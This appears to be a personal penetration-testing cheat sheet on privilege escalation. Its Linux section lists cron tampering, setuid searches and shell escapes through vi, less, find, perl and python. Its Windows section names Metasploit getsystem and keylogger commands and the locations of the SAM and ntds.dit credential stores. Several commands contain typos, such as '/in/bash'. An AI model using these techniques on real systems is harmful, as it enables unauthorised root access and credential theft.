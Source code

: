 ```yaml
---
title: Priv Esc
category: Post-Exploitation
order: 96
---
```


>**Linux**

Cron.d | Write a file to cron.d and wait for restart
Cron files  | Can any of the cron files be tampered with
Kernal Exploit |  <code> Run uname -a, /etc/release, /etc/issue and find an exploit </code>
Application Exploit | Look for web servers, mail servers for command injection
Look for exploits in root owned programs
PATH | Look for '.' in the path for system users
SETUID/SETGUID | <code> find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/security-hole </code> They may use the system syscall without specifying the path name 
User writable scripts | Look for scripts that have user writable permissions and are invoked by root (or call scripts that are invoked by root)
Enlightenment Exploit Pack | tbd
LD_PRELOAD | tbd
check sudo permissions | sudo -l

**setuid permissions**
 
{% highlight bash %}
sudo vi :shell
less (press v - launching vi) :shell
more  ?,  !bash
cp or mv
find . -exec bash -i \;
Script interpeters
perl exec ""/bin/bash"";<ctrl-d>
ruby exec ""bin/bash""
python import os os.system('/in/bash')
nano 
{% endhighlight %}

>**Windows**

Metasploit | use priv, getsystem -n [number]
Metasploit keylogger | keyscan_start, keyscan_stop, keyscan_dump
SAM Locations | c:\windows\repair, c:\winnt\repair
Active Directory Representations | ntd.dit

http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin

>**Mind Map**

[Priv Esc Mind Map](https://binaryexile.github.io/images/privesc.jpg)


